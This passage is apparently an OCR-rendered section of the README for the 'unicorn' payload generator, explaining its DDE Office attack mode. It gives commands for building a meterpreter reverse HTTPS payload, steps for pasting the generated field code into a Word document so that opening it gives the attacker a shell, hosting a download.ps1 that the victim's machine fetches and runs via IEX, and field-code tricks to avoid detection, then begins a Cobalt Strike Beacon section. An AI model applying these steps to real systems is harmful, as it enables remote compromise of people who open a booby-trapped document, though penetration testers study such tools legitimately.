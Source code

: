 The last one will use a 500 character string instead of the default 380, resulting in less carriage returns in VBA.




###                -----DDE Office COM Attack Instructions----

This attack vector will generate the DDEAUTO formulate to place into Word or Excel. The COM object 
DDEInitilize and DDEExecute allow for formulas to be created directly within Office which causes the
ability to gain remote code execution without the need of macros. This attack was documented and full
instructions can be found at:

https://sensepost.com/blog/2017/macro-less-code-exec-in-msword/

In order to use this attack, run the following examples:

python unicorn.py <payload> <lhost> <lport> dde
python unicorn.py windows/meterpreter/reverse_https 192.168.5.5 443 dde

Once generated, a powershell_attack.txt will be generated which contains the Office code, and the
unicorn.rc file which is the listener component which can be called by msfconsole -r unicorn.rc to
handle the listener for the payload. In addition a download.ps1 will be exported as well (explained
in the latter section).

In order to apply the payload, as an example (from sensepost article):

1. Open Word
2. Insert tab -> Quick Parts -> Field
3. Choose = (Formula) and click ok.
4. Once the field is inserted, you should now see "!Unexpected End of Formula"
5. Right-click the Field, choose "Toggle Field Codes"
6. Paste in the code from Unicorn
7. Save the Word document.

Once the office document is opened, you should receive a shell through powershell injection. Note
that DDE is limited on char size and we need to use Invoke-Expression (IEX) as the method to download.

The DDE attack will attempt to download download.ps1 which is our powershell injection attack since
we are limited to size restrictions. You will need to move the download.ps1 to a location that is
accessible by the victim machine. This means that you need to host the download.ps1 in an Apache2
directory that it has access to.

You may notice that some of the commands use "{ QUOTE" these are ways of masking specific commands
which is documented here: http://staaldraad.github.io/2017/10/23/msword-field-codes/. In this case
we are changing WindowsPowerShell, powershell.exe, and IEX to avoid detection. Also check out the URL
as it has some great methods for not calling DDE at all.

###                -----Import Cobalt Strike Beacon----

This method will import direct Cobalt Strike Beacon shellcode directly from Cobalt Strike.

